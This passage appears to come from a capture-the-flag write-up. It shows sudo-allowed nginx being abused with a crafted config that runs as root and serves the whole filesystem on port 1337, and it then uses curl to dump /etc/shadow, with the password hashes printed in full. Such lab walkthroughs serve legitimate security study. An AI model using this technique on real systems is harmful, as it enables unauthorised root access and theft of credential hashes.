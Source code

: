 ```

user root;
events {
    worker_connections 1024;
}
http {
    server {
        listen 1337;
        root /;
        autoindex on;
    }
}

```

I’ll start the webserver by running `nginx` with `-c` and the full path to this file.

```

activemq@broker:~$ sudo /usr/sbin/nginx -c /dev/shm/0xdf.conf 

```

Then I can query this webserver on 1337 and read files as root:

```

activemq@broker:~$ curl localhost:1337/etc/shadow             
root:$y$j9T$S6NkiGlTDU3IUcdBZEjJe0$sSHRUiGL/v4FZkWjU.HZ6cX2vsMY/rdFBTt25LbGxf1:19666:0:99999:7:::
daemon:*:19405:0:99999:7:::
bin:*:19405:0:99999:7:::
sys:*:19405:0:99999:7:::
sync:*:19405:0:99999:7:::
games:*:19405:0:99999:7:::
man:*:19405:0:99999:7:::
lp:*:19405:0:99999:7:::
mail:*:19405:0:99999:7:::
news:*:19405:0:99999:7:::
uucp:*:19405:0:99999:7:::
proxy:*:19405:0:99999:7:::
www-data:*:19405:0:99999:7:::
backup:*:19405:0:99999:7:::
list:*:19405:0:99999:7:::
irc:*:19405:0:99999:7:::
gnats:*:19405:0:99999:7:::
nobody:*:19405:0:99999:7:::
_apt:*:19405:0:99999:7:::
systemd-network:*:19405:0:99999:7:::
systemd-resolve:*:19405:0:99999:7:::
messagebus:*:19405:0:99999:7:::
systemd-timesync:*:19405:0:99999:7:::
pollinate:*:19405:0:99999:7:::
sshd:*:19405:0:99999:7:::
syslog:*:19405:0:99999:7:::
uuidd:*:19405:0:99999:7:::
tcpdump:*:19405:0:99999:7:::
tss:*:19405:0:99999:7:::
landscape:*:19405:0:99999:7:::
fwupd-refresh:*:19405:0:99999:7:::
usbmux:*:19474:0:99999:7:::
lxd:!:19474::::::
activemq:$y$j9T$5eMce1NhiF0t9/ZVwn39P1$pCfvgXtARGXPYDdn2AVdkCnXDf7YO7He/x666g6qLM5:19666:0:99999:7:::
_laurel:!:19667::::::

```